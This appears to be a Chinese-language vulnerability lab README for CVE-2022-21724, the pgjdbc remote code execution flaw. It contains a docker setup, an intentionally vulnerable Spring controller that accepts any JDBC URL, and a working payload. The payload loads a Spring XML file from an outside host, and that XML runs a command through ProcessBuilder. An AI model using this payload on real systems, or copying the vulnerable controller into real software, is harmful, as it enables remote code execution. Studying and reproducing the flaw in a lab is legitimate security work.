


# jdbc Postgresql Rce（CVE-2022-21724）

## 原理

近日披露了CVE-2022-21724，同样是在JDBC Connection URL可控情况下将会出现某些安全问题。

当攻击者控制 jdbc url 或属性时，使用 postgresql 库的系统将受到攻击。pgjdbc 根据通过 `authenticationPluginClassName`、`sslhostnameverifier`、`socketFactory`、`sslfactory`、`sslpasswordcallback` 连接属性提供的类名实例化插件实例。但是，驱动程序在实例化类之前没有验证类是否实现了预期的接口。这可能导致通过任意类加载远程代码执行。

## 环境搭建

执行如下命令启动：

```
docker-compose up -d
```

等待完全启动成功后，访问`http://your-ip:8090`

## 测试过程

漏洞代码如下:

```java
@Controller
public class Index {
    @RequestMapping(value = "/")
    @ResponseBody
    public String index(@RequestParam("jdbc") String jdbc) throws Exception {
        DriverManager.getConnection(jdbc);
        return jdbc;
    }
}
```

payload

`jdbc:postgresql://node1/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://192.168.3.106:1998/exp.xml`

exp.xml内容如下

```xml
<beans
    xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg>
            <list value-type="java.lang.String" >
                <value>touch</value>
                <value>/tmp/a.txt</value>
            </list>
        </constructor-arg>
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```






